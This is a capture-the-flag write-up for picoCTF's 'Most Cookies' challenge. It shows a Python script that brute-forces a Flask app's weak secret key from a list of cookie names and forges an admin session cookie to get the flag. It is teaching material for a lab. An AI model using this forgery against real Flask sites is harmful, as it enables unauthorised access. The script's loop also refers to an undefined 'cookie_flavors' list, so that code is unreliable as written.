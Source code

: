 # Most Cookies
### Authored by Katrina Lee

![image](challenge.PNG)

## Introduction

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period. Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **the session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **the timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **the [SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Scripting

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to import a couple of modules:
* `from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer` - to unsign the old session and sign the new one with timestamps
* `from flask.json.tag import TaggedJSONSerializer` - to create a new session
* `import hashlib` - to encrypt with session with a SHA-1 hash
* `import requests` - in my [writeup](../Cookies/README.md) for the `Cookies` challenge, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

Okay now, let's get our original session cookie so we can unsign and validate it. There are many ways we can go about this:
1. [DevTools](../Cookies/README.md)
2. [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) - visit the website and use this browser extension to see the cookies
3. [Burp Suite](https://portswigger.net/burp)
4. [cURL](https://curl.se/docs/manpage.html) - if you're on Linux, make a curl request to the server and retrieve the request headers with `curl -v http://mercury.picoctf.net:6259/`

For each of the above methods, once you acquire the cookie value, simply copy & paste it into the script: `old_session = eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`. Keep in mind that the session cookie (and thus, the secret key) seems to change periodically, so don't just copy this one here.

5. Python (recommended) - dynamically retrieve cookie value with a `Session` object
```
s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]
```

Now, let's loop through each cookie in `cookie_name`, create a signature with the cookie name as the secret key, and unsign that signature. If this process raises no errors (meaning the unsigning was successful), then we can break out of the loop and use this cookie name as our secret key:
```
for secret in cookie_flavors:
    try:
        signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
    except:
        continue
    break
```

Then, with our newly-acquired secret key and the session data, we can create a new session cookie using a similar process:
```
new_session = serializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer=tsigner,
    signer_kwargs={
        "key_derivation":"hmac",
        "digest_method":hashlib.sha1
    }
).dumps(data)
```

Lastly, we want to make another HTTP GET request to the website with `new_session` as the new session cookie and print out the response.
```
response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
Note: According to line 16 of `server.py`, the website redirects to the `/display` route if the value of the `very_auth` key in the `session` dictionary is not `blank`. Recall the `data` variable we defined earlier: `data = {"very_auth": "admin"}`. As you can see, `very_auth` is not `blank`. So we can simply request the `/` root, using the same `URL` variable we defined earlier; there is no need to specifically request the `/display` endpoint, since we will be redirected there anyways.

We can now run this script like so: `python3 most_cookies.py`. The alternative is to make the script print out the new session, and use `curl -v http://mercury.picoctf.net:6259/display -H 'Cookie: session={new_session}` to make the HTTP request.

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
